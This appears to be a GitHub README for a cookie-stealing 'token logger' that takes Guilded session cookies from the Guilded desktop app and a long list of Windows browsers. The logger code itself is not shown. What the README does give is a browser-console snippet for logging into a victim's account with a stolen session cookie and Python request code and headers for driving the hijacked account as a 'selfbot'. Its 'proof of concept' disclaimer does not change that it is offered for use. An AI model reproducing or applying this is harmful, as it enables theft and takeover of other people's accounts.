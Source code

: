 # Guilded Session Logger
A token logger; except for Guilded!

### POC
This repository is a proof of concept. The owner(s) and member(s) of this repository and organization take no responsibility for your actions.

### Important
This project logs session cookies. This means that your cookie may expire, unlike Discord tokens.

## What's Supported?
Windows only.
**- Guilded (desktop app)
- Reguilded (modified desktop app)
- Google Chrome
- Google Chrome Canary (Google Chrome SxS)
- Microsoft Edge
- Opera
- Opera GX
- Brave**
- Iridium (UNTESTED)
- Yandex (UNTESTED)
- Uran (UNTESTED)
- Amigo (UNTESTED)
- Torch (UNTESTED)
- Kometa (UNTESTED)
- Orbitum (UNTESTED)
- CentBrowser (UNTESTED)
- 7Star (UNTESTED)
- Sputnik (UNTESTED)
- Vivaldi (UNTESTED)
- Epic Privacy Browser (UNTESTED)

# Contributing
Issues and pull requests welcome!

If you tested this on a UNTESTED browser, make an issue!

# License
Read the [License](LICENSE)

# Logging in with a cookie
(Desktop only)
1. Open dev tools. (Ctrl + Shift + I on Windows, Command + Option + I on Mac)
2. Select "Console"
3. Paste the following into the console:
```javascript
function login(sessionCookie) {
  document.cookie = `hmac_signed_session=${sessionCookie}`;
  document.cookie = "authenticated=True";
  document.location.reload();
}

var loginCookie = 'your cookie in quotes or apostrophe here';
login(loginCookie);
```

# Making a request with a cookie
So you want to make a selfbot of a sort?

### Headers
These headers stay the same for most requests. You can always check the headers in the Network tab of Dev Tools if needed!
```json
{
    "accept": "application/json, text/javascript, */*; q=0.01",
    "accept-encoding": "gzip, deflate, br",
    "accept-language": "en-US,en;q=0.9",
    "referer": "https://www.guilded.gg/",
    "sec-ch-ua": '"Not.A/Brand";v="8", "Chromium";v="114", "Microsoft Edge";v="114"',
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": '"Windows"',
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "x-requested-with": "XMLHttpRequest"
}
```

## Python
```python
import requests
loginCookie = 'your login cookie here'

url = 'your request url here'
cookies = [
    ("hmac_signed_session", loginCookie),
    ("authenticated", "true"),
    ("gk", "electron_background_worker_watchdog%2Cuse_rtc_voice_connection%2Cmultiple_files_drag_drop%2Cshow_ptt_warning_banner%2Cnative_reaction_motion%2Cenable_progressive_image_uri_string%2Cenable_async_reactions%2Cnative_emotes_settings_screen%2Cserver_subs_prevent_native_subscribe_flow_ios%2Cenable_remove_reactions%2Cwebview_inject_cookies_disabled%2Cnative_audit_log_screen%2Candroid_soft_haptic_feedback%2Cenable_media_renderer_from_alternate_srcs%2Cwebrtc_vad%2Cmentionables_v2%2Cenable_scrollbar_v2%2Cwhimsical_bot_icons%2Cpause_stream_preview_unfocused%2Cnative_loopback_capture%2Crole_icon%2Creaction_picker_navbar_on_native%2Cmobile_virtualized_sidebar%2Cstyle_ios_text_input%2Cstyle_android_text_input%2Ccan_edit_socket_permissions%2Cyt_allow_custom_name%2Cchat_message_context_menu%2Cprofile_hover_card_v3%2Cpartner_program_v2%2Cvideo_streaming_pip_view_enabled%2Cshow_game_presence%2Cnative_update_app_overlay")
]
headers = {
    "accept": "application/json, text/javascript, */*; q=0.01",
    "accept-encoding": "gzip, deflate, br",
    "accept-language": "en-US,en;q=0.9",
    "referer": "https://www.guilded.gg/",
    "sec-ch-ua": '"Not.A/Brand";v="8", "Chromium";v="114", "Microsoft Edge";v="114"',
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": '"Windows"',
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "x-requested-with": "XMLHttpRequest"
}
payload = {} # your payload here. If no payload, put None
requests.request('method', headers=headers, payload=payload, cookies=dict(cookies), url=url)
```
